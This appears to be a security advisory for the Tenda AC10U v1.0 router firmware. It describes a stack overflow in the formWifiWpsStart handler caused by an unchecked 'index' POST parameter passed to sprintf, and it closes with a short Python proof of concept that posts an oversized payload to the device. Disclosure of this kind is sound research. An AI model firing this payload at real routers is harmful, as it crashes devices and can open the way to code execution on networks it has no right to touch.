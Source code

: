 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 firmware has a stack overflow vulnerability in the `formWifiWpsStart` function. The `index` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `index` can trigger this security vulnerability.

![image-20240309195802781](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195802781.png)

![image-20240309195638707](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195638707.png)

![image-20240313154044142](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313154044142.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsStart"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313154234903](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313154234903.png)
